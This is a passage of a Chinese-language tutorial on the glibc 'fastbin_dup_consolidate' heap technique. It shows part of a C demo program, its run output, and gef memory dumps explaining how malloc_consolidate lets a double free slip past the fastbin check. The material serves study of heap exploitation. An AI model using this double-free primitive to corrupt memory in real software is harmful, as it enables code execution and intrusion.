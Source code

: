 ```c
    void *p3 = malloc(0x400);
    fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
    fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");

    free(p1);
    fprintf(stderr, "Trigger the double free vulnerability!\n");
    fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");

    void *p4 = malloc(0x10);
    strcpy(p4, "CCCCCCC");
    void *p5 = malloc(0x10);
    strcpy(p5, "DDDDDDDD");
    fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", p4, p5);
}
```
```
$ gcc -g fastbin_dup_consolidate.c 
$ ./a.out                         
Allocated two fastbins: p1=0x17c4010 p2=0x17c4030
Now free p1!
Allocated large bin to trigger malloc_consolidate(): p3=0x17c4050
In malloc_consolidate(), p1 is moved to the unsorted bin.
Trigger the double free vulnerability!
We can pass the check in malloc() since p1 is not fast top.
Now p1 is in unsorted bin and fast bin. So we'will get it twice: 0x17c4010 0x17c4010
```
这个程序展示了利用在 large bin 的分配中 malloc_consolidate 机制绕过 fastbin 对 double free 的检查，这个检查在 fastbin_dup 中已经展示过了，只不过它利用的是在两次 free 中间插入一次对其它 chunk 的 free。

首先分配两个 fast chunk：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk p1
0x602010:	0x4141414141414141	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021  <-- chunk p2
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000020fc1  <-- top chunk
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000
```
释放掉 p1，则空闲 chunk 加入到 fastbins 中：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk p1 [be freed]
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021  <-- chunk p2
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000020fc1  <-- top chunk
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE) 
```
此时如果我们再次释放 p1，必然触发 double free 异常，然而，如果此时分配一个 large chunk，效果如下：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk p1 [be freed]
0x602010:	0x00007ffff7dd1b88	0x00007ffff7dd1b88      <-- fd, bk pointer
0x602020:	0x0000000000000020	0x0000000000000020  <-- chunk p2
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000411  <-- chunk p3
```